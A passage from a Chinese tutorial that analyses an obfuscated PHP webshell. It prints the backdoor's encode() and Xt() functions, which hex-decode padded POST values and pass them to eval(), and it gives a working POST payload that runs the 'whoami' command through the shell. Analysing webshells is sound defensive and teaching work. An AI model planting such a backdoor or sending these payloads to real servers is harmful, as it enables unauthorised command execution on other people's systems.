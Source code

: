 这时候，就可以执行 POST 传参：`num=2&Qxi*37yz=6173797374656d282777686f616d6927293b62` 来执行 whoami 命令

这个 PHP 内定义了两个函数，分别是 `encode()` 和 `Xt()`，我们先看 `encode()`：

```bash
function encode(){
    $num1=base64_encode($_POST['num']);
    $num=base64_decode($num1);
    echo "1";
    foreach($_POST as $k => $v){
        $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
    }
    @$post=base64_encode($_POST['Qxi*37yz']);
    @$post1=base64_decode(@$post);
    return $post1;
}
```

传入了两个参数，参数名分别为 `num` 和 `Qxi*37yz`，这个函数的输出为 `$post1`，关键就在于以下这一行代码：

```bash
foreach($_POST as $k => $v){
    $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
}
```

然后我们根据上文提到的知识点 0.8、1.5 和 2.1 以及 2.4，可以了解到这一行代码的意思：

-   `substr()` 函数将传进去的 `Qxi*37yz` 参数字符串，删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容）
-   `pack("H*",...)` 函数将处理后的 `Qxi*37yz` 参数字符串进行十六进制编码转换
-   `foreach()` 将原本的 `$_POST` 变量替换为经过十六进制编码转换后的字符串

注：这里可能有些绕，多上手尝试一下就明白了

接下来我们来看 `Xt()` 这个函数：

```bash
function Xt(){
    return eval($this->encode());
}
```

它将 `encode()` 函数的执行结果带入到 `eval()` 高危函数当中，即：

```bash
function Xt(){
    return eval($post1);  //encode() 函数的输出为$post1
}
```

那假设我们要执行 `whoami` 命令，那就要让 `$post1` 等于 `system('whoami');`，这没毛病吧？

所以结合来看，我们先要生成 16 进制的字符串：
